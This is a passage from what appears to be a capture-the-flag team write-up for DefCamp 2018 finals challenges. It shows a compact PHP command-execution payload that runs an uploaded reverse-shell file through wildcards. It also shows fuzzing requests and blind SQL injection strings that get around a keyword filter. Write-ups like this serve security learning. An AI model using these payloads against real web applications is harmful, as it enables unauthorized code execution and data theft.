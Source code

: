 #### Other failed attempts

- retrieve `FLAG` of hash_hmac
    - Although we can control the payload, we can't even get the signature. The request is sent to localhost.
- SSRF in http_build_query
    - Nope, the request is sent to localhost.
- Using Unicode to bypass strlen check
    - but `strlen("我") === 3` It will return the number of bytes.

#### Postscript

The shortest payload I can think of is:
```php
<?=`. ./?*=*`;
```
First, we'll create a file `123456789.username=.raw` with a reverse shell payload. Then, we use this trick `. ./filename` to   use sh to interpret a plaintext file (refer to [phition's blog](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)). Also we represent the filaname using wildcard characters`?*=*`. The question mark is required. Otherwise the PHP will interpret the string as a comment.

This payload may not work but I think it's worth to mention:)

### TicketCore

(bookgin, sasdf, sces60107, written by bookgin)

In the challenge we can retrieve ticket with this API:

```
https://ticketcore.dctf18-finals.def.camp/printable-ticket/2006
https://ticketcore.dctf18-finals.def.camp/printable-ticket/2007
```

Each ticket has a unique `code`.

Let's do some fuzzing first:
```
/2006 #get ticket 2006
/000002006.000 #get tieckt 2006
/and # WAF
/drop # WAF
/if #WAF
/' # Server 500 Error
/'=' # get ticket 2006
/1 #This is a private VIP ticket that only real hackers have access to it!
```

This is apparently a SQL injection challenge, and our main objective is to retrieve the ticket no.1. 

`if`,`and`,`or` is WAFed, but we can still use `&&` `||` to execute blind SQL injection.
```
# get ticket 2006
/'=''&& 'hello='hello' || 'a'='
# ticket not found
/'=''&& 'hello='world' || 'a'='
```

